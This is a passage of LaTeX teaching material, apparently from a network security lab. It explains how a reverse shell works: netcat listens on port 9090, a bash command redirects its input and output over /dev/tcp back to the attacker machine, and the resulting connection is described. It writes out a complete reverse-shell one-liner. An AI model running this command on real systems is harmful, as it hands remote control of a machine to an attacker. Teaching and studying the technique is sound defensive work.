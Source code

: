 To have a \texttt{bash} shell on a remote machine connect back to the attacker's machine, the
attacker needs a process waiting for some connection on a given port. In this example, we will
use \texttt{netcat}. This program allows us to specify a port
number and can listen for a connection on that port.
In Figure~\ref{tcp:fig:reverse_shell_A}, \texttt{netcat}~(\texttt{nc} for short) is used
to listen for a connection on port 9090.
In Figure~\ref{tcp:fig:reverse_shell_B}, the \texttt{/bin/bash} command represents the command that
would normally be executed on a compromised server. This command has the following pieces:

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.0.2.4/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.0.2.4}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. In Figure~\ref{tcp:fig:reverse_shell_A}, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.8}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.4}. This is confirmed via the \texttt{"Connection 10.0.2.8 accepted"}
message displayed by \texttt{netcat}.

The shell prompt obtained from the connection is now connected to the \texttt{bash} shell. This
can be observed from the difference in the current working directory (printed via
\texttt{pwd}). 
Before the connection was established, the \texttt{pwd} returned
\texttt{/home/seed}. Once \texttt{netcat} is connected to \texttt{bash},  \texttt{pwd} in the
new shell returns \texttt{/home/seed/Documents} (directory corresponding to where
\texttt{/bin/bash} is started from). 
We can also observe the IP address displayed in the shell prompt
is also changed to 10.0.2.8, which is the same as that on the server
machine.
The output from \texttt{netstat} shows the established
connection.

